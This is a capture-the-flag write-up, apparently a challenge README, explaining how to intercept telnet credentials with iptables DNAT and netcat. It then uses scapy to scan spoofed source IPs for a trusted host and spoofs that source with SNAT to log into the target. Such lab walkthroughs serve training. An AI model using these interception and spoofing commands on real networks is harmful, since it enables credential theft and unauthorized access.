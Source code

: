 # SPOILER ALERT

This is just one possible way of solving this challenge.  

Note for CTF admins: It requires a custom docker bridge networking driver because docker doesn't play nice with IP spoofing (long story).  Please follow installation instructions here, or the docker networks probably won't start ("l2bridge" driver undefined).  

https://github.com/nategraf/l2bridge-driver

## Catch the credentials

### Attacker

Notice SYN's and RST's for telnet/23.  Let's give it something to connect to...

```bash
tcpdump -ni any
```

Look into using iptables for simple TCP connection redirection.  

```bash
man iptables
man iptables-extensions
/DNAT
```

Place our address translation rule and then watch the counter for how many packets hit the rule

```bash
iptables -t nat -A PREROUTING -s 172.22.1.14 -d 172.22.0.8  -p tcp --dport 23 -j DNAT --to-destination 172.22.0.254:8023
iptables -t nat -vnL
```

Yum, credentials.  Now how are we going to use them if the port is closed?

```bash
nc -lp 8023 >> captured.txt &
```

Sometimes the whole session doesn't come through, stopping after the telnet negotiation or the username.  Trying again worked for me, though you could also try more flags to netcat

```bash
nc -tlvp 8023 -o hexdump >> capture.txt &
```

## Find the known-good source IP

We'll need to find the right source IP, based on the hint in the email.  

```bash
scapy
```

A long-running issue I encountered at this point was in not scapy-ing properly.  I was using ```send()``` which is layer 3 rather than ```sendp()``` layer 2.  This meant that the interface I was specifying with iface= was being partially ignored, because the kernel still had to resolve the Ethernet headers, so it was using ARP, which was shooting out an interface determined by the routing table rather than the one I wanted where the actual target lived.  Anyway, if you're trying to swim against the routing table slap an Ethernet header on there and use ```sendp()``` like a real hacker.  

I also discovered a nice little feature of python lambda functions: they will automatically unpack tuples if you feed them multiple parameters.  Scapy likes to pass around tuples of related packets, like (answered, unanswered) and (sent, received), so that feature lets you unpack them in a nice readable way. 

Also ```srp()``` will only accept one answer per packet unless you specify ```multi=True```.  One answer is just fine for our purposes, but it was interesting to see the 3 SYN/ACK packets the server responds with as it tries to keep the connection alive.  

We're really just blasting these packets out asynchronously, not waiting at all between them, so some will get dropped.  Hence the ```retry=``` and ```timeout=``` arguments.  Alternatively we could delay 0.1 seconds between each packet with ```inter=0.1```.  

```python
pkts = [Ether()/IP(src=f'172.22.1.{x}', dst='172.22.0.8')/TCP(dport=23) for x in range(1,254)]
answered, unanswered = srp(pkts, iface='eth1', retry=3, timeout=5, multi=True)
success = answered.filter(lambda sent, recvd: 'R' not in recvd[TCP].flags)
success
success.show()
```

If you're not comfortable with fancy python format strings, list comprehensions, or lambda functions, it could also be done like this.  

```python
success = []
for x in range(1,254):
    pkt = Ether()/IP(src='172.22.1.'+str(x), dst='172.22.0.8')/TCP(dport=23)
    answered, unanswered = srp(pkt, iface='eth1', verbose=0)
    if len(answered) == 1:
        sent, recvd = answered[0]
        if 'R' not in recvd[TCP].flags:
            success.append(recvd)
    elif len(answered) > 1:
        print("You must have set multi=True in srp()", answered)
print(success)
```

At the end of the day, you just need a way to scan a particular IP:port combo with a bunch of spoofed source IPs, to find which one is allowed to connect.  Once you find it, it's time to create a full spoofed-source connection.  

## Be the good guys

If we try to connect via telnet to the target, our packets leave our device with the wrong source IP (our own, which will be rejected since it's not known-good).  We can use iptables to change that.  

```bash
man iptables
man iptables-extensions
/SNAT
```

Do we really need the ```-s``` filter for source IP?  Well, we're doing this in the ```POSTROUTING``` chain rather than the ```OUTPUT``` chain (which isn't allowed) so we would be affecting any traffic routed through this device, like maybe legitimate admin traffic that they would notice.  Probably a small risk, but we should understand the routing well enough to know which of our source IPs will be chosen.  And more precise filters == more warm fuzzies, no?

```bash
iptables -t nat -A POSTROUTING -s 172.22.0.254 -d 172.22.0.8  -p tcp --dport 23 -j SNAT --to-source 172.22.1.9
iptables -t nat -vnL
```

```bash
cat captured.txt
# user: monitor 
# pass: monitors_gonna_monit
telnet 172.22.0.8
```

### monitor@netadmin

```bash
whoami
ls
cat flag1.txt
```

Victory!  Now I need to build the next section...

